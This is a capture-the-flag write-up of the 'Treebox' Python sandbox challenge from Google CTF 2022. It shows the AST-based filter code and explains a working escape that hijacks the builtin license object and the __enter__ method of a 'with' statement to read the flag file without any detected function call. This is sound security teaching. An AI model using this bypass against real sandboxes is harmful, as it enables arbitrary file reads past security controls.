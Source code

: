 # Treebox
> I think I finally got Python sandboxing right.
>
> treebox.2022.ctfcompetition.com 1337

From the description, we know this is a Python sandbox challenge.
Connecting to the server gives us:
```
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
```
The proof of work is disabled, so we don't need to worry about that for this challenge. Below,
we can send Python code and end that code with `--END`.
However, trying some test code,
```python
print(1)
--END
```
throws an error
```
ERROR: Banned statement <ast.Call object at 0x7f55d45b31f0>
```

## Source Code
After downloading and extracting the zip, we get a single python file: `treebox.py`
```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

It seems `print(f"ERROR: Banned statement {x}")` was what was printing out the 
error we saw earlier. Going through the entire file, we can see that it reads
Python code line by line, compiles the code into an AST, performs some verification function,
then finally executes the code if the function passes.

From before, we know our `print(1)` does not pass the verification, so let's try 
and figure out exactly how the code works. First, we need to talk about ASTs.

## AST
ASTs, or Abstract Syntax Trees, are a tree representation of the code in a program.
They act like normal trees, except each node contains some instruction that would 
be executed. However, ASTs are abstract; they are not a true representation of 
what will actually be run by the program. For more information, check out their
[Wikipedia page.](https://en.wikipedia.org/wiki/Abstract_syntax_tree)

For Python, the `ast` module helps create and process these trees
programmatically. This line <br>
`tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)`<br>
compiles all the code we have submitted into a single tree that is passed into
the verification function.
```python
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
```
Taking a look at the `ast` module [documentation](https://docs.python.org/3/library/ast.html),
we see that `ast.walk(m)` yields every node in the tree, so `x` would be a single
node of that tree. `type(x)` is then matched against 3 different types, `ast.Import`,
`ast.ImportFrom`, and `ast.Call`. 

Looking at the documentation again, we can see that
`ast.Import` and `ast.ImportFrom` both deal with importing modules, while `ast.Call`
matches **ANY** function call. This is why our previous code `print(1)` errors out,
as `print()` is a function that is called in the code.

In the code, we also see `# Flag is in a file called "flag" in cwd.` meaning we need to 
somehow read a file without calling any functions.

### Function calls
Remember, an AST isn't a 1-to-1 copy of what will happen when the code is executed.
It compiles based on the code supplied. This means that automatic function calls 
are not considered as `ast.Call`. For example, the `__add__` dunder function, when
defined, is not considered a call to a function, even if it might actually
represent one.
```python
def __add__(self, other):
    # do something
    return
... # a and b are objects that use this add dunder
a + b # does not result in ast.Call when parsed in ast.walk
```
As long as the AST does not see the code as a function call, we can pretty much 
do whatever we want. 

## My solution
My solution is partly based off the solution to [`paas-v2` from HSCTF 9](https://github.com/hsncsclub/hsctf-9-challenges/tree/main/misc/paas-v2).
That solution manipulates the builtin license 
to read from an arbitrary file. I won't go over it too much in detail as I will just 
explain it with the rest of my solution.
```python
__builtins__.license._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.license
a.__class__.__exit__ = lambda self, *args: None
with a as b:
	pass
```
The first line sets the `_Printer__filenames` attribute of the builtin `license`
to `flag`, the name of the file we are trying to read. This makes it so that when
the `license()` function is called, the file that is read is `flag`, instead of 
the text file that it normally reads from.

Then, we set a variable to some object whose class attributes can be edited.
I used the builtin help, but as long as you can set a usable dunder function, any
object is okay. 

Before moving on the the next 2 lines, let's go over the last `with` statement first.
In Python, when a `with` statement is called, the `__enter__` method is used to 
assign a value to the other variable, while the `__exit__` method handles what
happens after exiting the `with` statement.
```python
with a as b:
    pass
# essentially
b = a.__enter__()
# do smth with b
a.__exit__()
```
Therefore, we can directly assign the `__enter__` and `__exit__` methods
of the class of the variable we just used. The `__enter__` method is set to the 
builtin license method, so that when the `__enter__` method is called, the license
method is called instead, which will print the contents of the file it is reading,
in this case printing the flag.

Running this code on the server gives our flag:
```python
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
__builtins__.license._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.license
a.__class__.__exit__ = lambda self, *args: None
with a as b:
        pass
        
--END
-- Executing safe code:
CTF{CzeresniaTopolaForsycja}
```
and we have our flag: `CTF{CzeresniaTopolaForsycja}`

## Other solutions
There where many **many** other solutions to this challenge, in fact that was one
aspect I really enjoyed about it. Many of them are completely different from my 
solution, so I suggest you check them out as well to learn more. In fact, before
looking at the other solutions, I was not even aware of many of the capabilites
of function decorators.

## Takeaways
- ASTs and the Python ast module
- Python's builtin methods/classes
- Different types of dunder methods
- Function decorators (not in my solution)
- Metaclasses (again not in my solution)